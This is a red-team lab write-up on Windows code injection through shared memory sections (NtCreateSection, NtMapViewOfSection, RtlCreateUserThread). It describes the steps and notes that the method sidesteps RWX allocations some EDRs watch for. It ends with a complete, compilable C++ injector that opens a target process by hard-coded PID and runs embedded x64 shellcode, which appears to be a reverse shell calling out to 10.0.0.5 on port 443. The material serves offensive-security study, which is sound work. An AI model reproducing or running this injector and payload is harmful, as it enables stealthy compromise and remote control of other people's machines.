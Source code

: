 # NtCreateSection + NtMapViewOfSection Code Injection

## Overview

This lab is for a code injection technique that leverages Native APIs `NtCreateSection`, `NtMapViewOfSection` and `RtlCreateUserThread`.

* Section is a memory block that is shared between processes and can be created with `NtCreateSection` API 
* Before a process can read/write to that block of memory, it has to map a view of the said section, which can be done with `NtMapViewOfSection`
* Multiple processes can read from and write to the section through the mapped views

High level overwiew of the technique:

* Create a new memory section with RWX protection
* Map a view of the previously created section to the local malicious process with RW protection
* Map a view of the previously created section to a remote target process with RX protection. Note that by mapping the views with RW \(locally\) and RX \(in the target process\) we do not need to allocate memory pages with RWX, which may be frowned upon by some EDRs.
* Fill the view mapped in the local process with shellcode. By definition, the mapped view in the target process will get filled with the same shellcode
* Create a remote thread in the target process and point it to the mapped view in the target process to trigger the shellcode

## Execution

Let's create a new memory section in the local process, that will have RWX access rights set:

```cpp
fNtCreateSection(&sectionHandle, SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, NULL, (PLARGE_INTEGER)&sectionSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
```

We can see the section got created and we obtained its handle 0x88:

![](../../.gitbook/assets/image%20%2866%29.png)

Let's create an RW view of the section in our local process and obtain its address which will get stored in `localSectionAddress`:

```cpp
fNtMapViewOfSection(sectionHandle, GetCurrentProcess(), &localSectionAddress, NULL, NULL, NULL, &size, 2, NULL, PAGE_READWRITE);
```

![](../../.gitbook/assets/image%20%2871%29.png)

Let's create another view of the same section in a target process \(notepad.exe PID 6572 in our case\), but this time with RX protection. The memory address of the view will get stored in `remoteSectionAddress` variable:

![](../../.gitbook/assets/image%20%28191%29.png)

We can now copy the shellcode into our `localSectionAddress`, which will get automatically mirrored/reflected in the `remoteSectionAddress` as it's a view of the same section shared between our local and target processes:

```cpp
memcpy(localSectionAddress, buf, sizeof(buf));
```

Below shows how the `localSectionAddress` gets filled with the shellcode and at the same time the `remoteSectionAddress` at `0x000002614ed50000` inside notepad \(on the right\) gets filled with the same shellcode:

![](../../.gitbook/assets/populating-section-with-shellcode.gif)

We can now create a remote thread inside the notepad.exe and make the `remoteSectionAddress` its start address in order to trigger the shellcode:

```cpp
fRtlCreateUserThread(targetHandle, NULL, FALSE, 0, 0, 0, remoteSectionAddress, NULL, &targetThreadHandle, NULL);
```

![](../../.gitbook/assets/rtlcreateuserthreadshell.gif)

## Code

```cpp
#include <iostream>
#include <Windows.h>
#pragma comment(lib, "ntdll")

typedef struct _LSA_UNICODE_STRING { USHORT Length;	USHORT MaximumLength; PWSTR  Buffer; } UNICODE_STRING, * PUNICODE_STRING;
typedef struct _OBJECT_ATTRIBUTES {	ULONG Length; HANDLE RootDirectory; PUNICODE_STRING ObjectName; ULONG Attributes; PVOID SecurityDescriptor;	PVOID SecurityQualityOfService; } OBJECT_ATTRIBUTES, * POBJECT_ATTRIBUTES;
typedef struct _CLIENT_ID { PVOID UniqueProcess; PVOID UniqueThread; } CLIENT_ID, *PCLIENT_ID;
using myNtCreateSection = NTSTATUS(NTAPI*)(OUT PHANDLE SectionHandle, IN ULONG DesiredAccess, IN POBJECT_ATTRIBUTES ObjectAttributes OPTIONAL, IN PLARGE_INTEGER MaximumSize OPTIONAL, IN ULONG PageAttributess, IN ULONG SectionAttributes, IN HANDLE FileHandle OPTIONAL); 
using myNtMapViewOfSection = NTSTATUS(NTAPI*)(HANDLE SectionHandle,	HANDLE ProcessHandle, PVOID* BaseAddress, ULONG_PTR ZeroBits, SIZE_T CommitSize, PLARGE_INTEGER SectionOffset, PSIZE_T ViewSize, DWORD InheritDisposition, ULONG AllocationType, ULONG Win32Protect);
using myRtlCreateUserThread = NTSTATUS(NTAPI*)(IN HANDLE ProcessHandle, IN PSECURITY_DESCRIPTOR SecurityDescriptor OPTIONAL, IN BOOLEAN CreateSuspended, IN ULONG StackZeroBits, IN OUT PULONG StackReserved, IN OUT PULONG StackCommit, IN PVOID StartAddress, IN PVOID StartParameter OPTIONAL, OUT PHANDLE ThreadHandle, OUT PCLIENT_ID ClientID);

int main()
{
	unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\x0a\x00\x00\x05\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2\xf0\xb5\xa2\x56\xff\xd5";
	
	myNtCreateSection fNtCreateSection = (myNtCreateSection)(GetProcAddress(GetModuleHandleA("ntdll"), "NtCreateSection"));
	myNtMapViewOfSection fNtMapViewOfSection = (myNtMapViewOfSection)(GetProcAddress(GetModuleHandleA("ntdll"), "NtMapViewOfSection"));
	myRtlCreateUserThread fRtlCreateUserThread = (myRtlCreateUserThread)(GetProcAddress(GetModuleHandleA("ntdll"), "RtlCreateUserThread"));
	SIZE_T size = 4096;
	LARGE_INTEGER sectionSize = { size };
	HANDLE sectionHandle = NULL;
	PVOID localSectionAddress = NULL, remoteSectionAddress = NULL;
	
	// create a memory section
	fNtCreateSection(&sectionHandle, SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, NULL, (PLARGE_INTEGER)&sectionSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
	
	// create a view of the memory section in the local process
	fNtMapViewOfSection(sectionHandle, GetCurrentProcess(), &localSectionAddress, NULL, NULL, NULL, &size, 2, NULL, PAGE_READWRITE);

	// create a view of the memory section in the target process
	HANDLE targetHandle = OpenProcess(PROCESS_ALL_ACCESS, false, 1480);
	fNtMapViewOfSection(sectionHandle, targetHandle, &remoteSectionAddress, NULL, NULL, NULL, &size, 2, NULL, PAGE_EXECUTE_READ);

	// copy shellcode to the local view, which will get reflected in the target process's mapped view
	memcpy(localSectionAddress, buf, sizeof(buf));
	
	HANDLE targetThreadHandle = NULL;
	fRtlCreateUserThread(targetHandle, NULL, FALSE, 0, 0, 0, remoteSectionAddress, NULL, &targetThreadHandle, NULL);

	return 0;
}
```

## References

{% embed url="http://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FNT%20Objects%2FSection%2FNtCreateSection.html" %}

{% embed url="https://undocumented.ntinternals.net/index.html?page=UserMode%2FUndocumented%20Functions%2FExecutable%20Images%2FRtlCreateUserThread.html" %}

{% embed url="https://docs.microsoft.com/en-us/windows-hardware/drivers/kernel/section-objects-and-views" %}

